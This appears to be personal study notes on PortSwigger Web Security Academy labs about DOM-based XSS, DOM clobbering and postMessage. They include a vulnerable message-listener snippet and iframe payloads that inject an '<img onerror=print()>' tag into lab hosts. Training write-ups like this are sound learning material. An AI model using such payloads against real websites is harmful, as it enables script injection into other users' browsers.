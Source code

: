 the website uses the JavaScript replace() function
including an extra set of angle brackets at the beginning of the comment. These angle brackets will be encoded, but any subsequent angle brackets will be unaffected,

# xssed

<span style="color:yellow;font-weight:700;font-size:30px">
DOM clobbering
</span>

https://portswigger.net/web-security/dom-based/dom-clobbering




# materials: what is window.postmessage():
https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage

**Controlling the web message source (3 labs)**

https://portswigger.net/web-security/dom-based/controlling-the-web-message-source
#
# ***1. Lab: DOM XSS using web messages***
[to the Lab](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)

hint:
```htm
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
```

1. look for messages listners / innerHTML object - find in response to home (GET / HTTP/1.1):
```htm
    <script>
        window.addEventListener('message', function(e) {
            document.getElementById('ads').innerHTML = e.data;
        })
    </script>
```

2. load the hinted code with labs url and **\<img>** tag based onerror event handler:
```htm
<iframe src="https://0a85009c04059966c0d325d100d6002c.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print(1)>','*')">
```
avoid apos char at: src='x' and onerror='print()'. they break the payload here

<iframe src="https://0ad30050048d48b0c07d41e9004800ec.web-security-academy.net/" onload="this.contentwindow.postmessage('<img src=1 onerror=print()>','*')">

# DOMed!
